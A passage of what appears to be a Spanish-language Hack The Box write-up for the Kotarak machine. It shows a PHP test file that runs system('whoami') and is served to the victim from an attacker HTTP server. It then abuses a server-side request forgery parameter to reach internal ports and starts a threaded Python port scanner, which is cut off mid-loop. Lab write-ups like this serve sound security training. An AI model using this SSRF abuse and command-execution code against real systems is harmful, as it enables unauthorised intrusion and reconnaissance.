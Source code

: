 ```bash
<?php
        system("whoami");
?>
```

Nos compartimos un servidor HTTP con python y tratamos de ver su contenido por el sitio web de la máquina víctima.

```bash
http://10.10.14.16/test.php
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.55 - - [19/Oct/2021 14:22:56] "GET /test.php HTTP/1.1" 200 -
```

![""](/assets/images/htb-kotarak/kotarak-test.png)

No vemos nada. Asi que vamos a tratar se ver si podemos ver puertos abiertos internos en la máquina, podriamos tratar con el puerto 22 que sabemos que se encuentra abierto:

```bash
http://localhost:22
```

![""](/assets/images/htb-kotarak/kotarak-ssh.png)

Vemos la cabecera del servicio SSH, por lo que vamos a tratar de descubrir puertos internos abiertos en la máquina víctima, los primeros 1000; así que nos vamos a crear un pequeño programa en python:

```python
#!/usr/bin/python3
#coding: utf-8

import sys, requests, threading, signal

# Ctrl + c
def def_handler(sig, frame):
    print("\n[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def makeRequest(uri, port):
    r = requests.get(uri)
    if r.text.strip():
        print("\n[*] El puerto {} está abierto".format(port))

if __name__ == '__main__':
    url = "http://10.10.10.55:60000/url.php?path=http%3A%2F%2Flocalhost%3A"
    threads = []
    for port in range(1, 1000):
```